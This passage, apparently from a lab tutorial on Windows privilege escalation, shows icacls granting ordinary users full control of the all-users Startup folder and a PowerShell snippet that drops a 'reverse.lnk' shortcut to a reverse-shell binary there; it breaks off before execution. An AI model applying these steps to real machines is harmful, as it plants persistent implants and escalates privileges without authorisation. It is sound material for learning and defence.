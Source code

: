 ```shell
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


<SNIP>
```

# Privilege Escalation via Startup Applications

Run a command prompt or PowerShell console as an administrator and grant full permissions to the startup directory:

```powershell
PS C:\Windows\system32> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /grant "BUILTIN\Users:F"
processed file: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
Successfully processed 1 files; Failed processing 0 files
```

Verify that the permissions have been applied:

```powershell
PS C:\Windows\system32> icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             S-1-5-21-264094270-2388996790-3434637240-1000:(I)(OI)(CI)(DE,DC)
                                                             DESKTOP-BN\user:(I)(OI)(CI)(DE,DC)
                                                             DESKTOP-BN\Administrator:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files  
```

As we can see, the `Users` group can write to the Startup directory. Therefore, we can create a malicious binary or implant and place it in that directory.

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk")
$Shortcut.TargetPath = "C:\Tools\reverse.exe"
$Shortcut.Save()
```

In a low-privileged user (default user) command prompt or PowerShell console, execute the script:
